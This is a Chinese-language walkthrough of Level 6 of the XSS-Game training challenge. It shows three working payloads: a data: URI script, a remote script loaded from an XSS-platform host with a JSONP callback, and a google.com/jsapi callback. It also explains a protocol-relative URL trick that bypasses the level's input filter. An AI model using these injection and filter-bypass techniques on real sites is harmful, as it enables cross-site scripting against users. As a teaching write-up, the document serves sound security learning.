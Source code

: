 ## [[XSS-Game](https://xss-game.appspot.com/)] [[Level 6 - Follow the 🐇](https://xss-game.appspot.com/level6)] [[解题报告](https://exp-blog.com/safe/ctf/xss-game/level-6-follow-the-rabbit/)]

------

## 1. 解题方法一（题目 "BUG"）

明显注入点在 URL。

查看页面源码发现， 无论在 URL 输入什么都会实时回显到 script 标签的 src 属性里面：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/01.png)

即注入点是这样的： `<script src="注入点" ></script>`

要在 script 标签的 src 属性执行 js ，可以构造这样的 payload： `data:text/javascript,alert('exp')`

直接 pass。。最后一关简单到离谱。。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/02.png)


## 2. 解题方法二（XSS 平台）

其实这么简单就突破了，可能是这题的 BUG。

因为我一开始没看题目的 Mission Objective 变成了这样：

**Find a way to make the application request an external file which will cause it to execute an alert().**

即作者期望我们利用 script 标签的 src 属性去调用其他站点的 恶意 js 脚本，再由该脚本回调当前网页 的 alert，估计作者也没想到可以被钻了空子。

------------

若按作者的思路解题，我们可以用 xss 平台做，例如： [http://xss.tf](http://xss.tf)

注册 xss 平台后，任意创建一个项目，然后配置项目源码，勾选最后的“自定义代码”，输入一个 JS 函数 `alert()` ，最后查看项目代码，会给出访问这个项目的 URL，如这里为：[http://xss.tf/IUa](http://xss.tf/IUa)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/03.png)

打开这个 xss 项目的 URL ： [http://xss.tf/IUa](http://xss.tf/IUa)

可以看见页面只打印了一个 JS 函数 `alert()` ，到这里我们构造这个 xss 平台的目的就完成了。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/04.png)

------------

### 2.1. 回调函数

回到挑战页面，前面已经知道注入点是这样的： `<script src="注入点" ></script>`

要从这里通过 xxs 平台回调 `alert()` 函数，只需要在 URL 末尾加上 `callback=alert`，即：

`<script src="http://xss.tf/gAk?callback=alert" ></script>`

回调原理大概是这样的：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/05.png)


------------

### 2.2. 验证绕过

但是直接注入 `http://xss.tf/gAk?callback=alert` 是无法成功的，

原因是题目对注入点做了正则校验，不允许输入以 http 或 https 开头的内容：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/06.png)

但是绕过的方式也很简单，直接删掉 `http:` 或 `https:` 即可，最终 payload 变成这样：

`//xss.tf/gAk?callback=alert`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/07.png)


在 web 网页中，以双斜杠 `//` 开头的 URL 写法有其特殊用途：

- 它会判断当前的页面协议是 http 还是 https 来决定请求 url 的协议
- 主要用于处理 \[网站使用的协议\] 和 \[网页中请求的外网资源\] 不一致的问题，达到无缝切换
- 这种写法在 CSS 很常见，如：`.omgomg { background: url(//exp-blog.com/imgs/exp.gif); }`


------------

## 3. 解题方法三（谷歌 jsapi）

查看 hits ，题目给出的一个提示是：`google.com/jsapi?callback=foo`

打开页面发现，google 会实时根据 `callback=foo` 的值构造一个 `foo` 函数

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/08.png)

因此可以构造这样的 payload ：`//www.google.com/jsapi?callback=alert`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/09.png)

这样就可以省去自己搭建 xss 平台的麻烦了，一样可以 pass ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/10.png)

------------

## 4. 闯关成功

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/11.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-6/imgs/12.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
